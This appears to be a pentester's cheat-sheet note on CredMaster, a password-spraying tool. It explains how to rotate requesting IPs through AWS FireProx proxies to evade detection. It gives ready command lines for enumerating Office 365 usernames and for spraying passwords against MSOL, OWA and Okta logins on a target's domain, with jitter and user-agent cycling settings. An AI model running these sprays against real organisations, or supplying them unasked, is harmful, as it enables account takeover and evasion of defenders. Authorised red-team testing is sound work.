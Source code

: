 
# CredMaster
> "Launch a password spray / brute force attach via Amazon AWS passthrough proxies, shifting the requesting IP address for every authentication attempt. This dynamically creates FireProx APIs for more evasive password sprays."
> -GitHub
## Use
Needs an AWS key to spin up EC2 instances for the job. Put into `aws.config`.
```json
{
        "region" : "us-east-1",
        "access_key" : "",
        "secret_access_key" : "",
        "session_token" : null,
        "profile_name" : null                                           
}
```
### Flags
- `-u` username file
- `-t` threads
- `--plugin` plugin to use
- `--config` config file to use
- `-p` passwords file
- `-o` output file
- `-a` user agents list to cycle thru
- `-t` throttling
- `-m` min jitter *has to be a higher number than `-j`*
- `-j` jitter
### Plugin Examples
#### O365 User Enum
```bash
python3 credmaster.py --plugin o365enum --config aws.config -u usernames.txt -t 8 
```
CredMaster will also create a `credmaster-validusers.txt` file with all of the valid usernames it finds with this command.
#### Spraying Plugin
```bash
python3 credmaster.py --plugin msol --config aws.config -u credmaster-validusers.txt -p passwords.txt -o 
```
#### MSOL
#### o365enum
```bash
python3 credmaster.py -u "users.txt" \
-p pass.txt \
--plugin o365enum \
--config aws.config \
--color \
-o "./o365-enum-out" \
-t 5 -j 15 -m 10 \
-a ua.txt
```
#### OWA Plugin Spray
**NOTE** use a url you've found on the target's actual domain.
```bash
python3 credmaster.py -u "/root/target/users.txt" \
-p pass.txt \
--plugin owa \
--url "https://target.mail.onmicrosoft.com" \.
--config aws.config \
-o "/root/target/OWA-credmaster-out"
```
#### Okta
```bash 
python3 credmaster.py \
--plugin okta \
--config aws.config \
-u users.txt \
-p passwords.txt \
-o okta-out \
--url https://target.okta.com
```



> [!Resources]
> - [GitHub](https://github.com/knavesec/CredMaster)
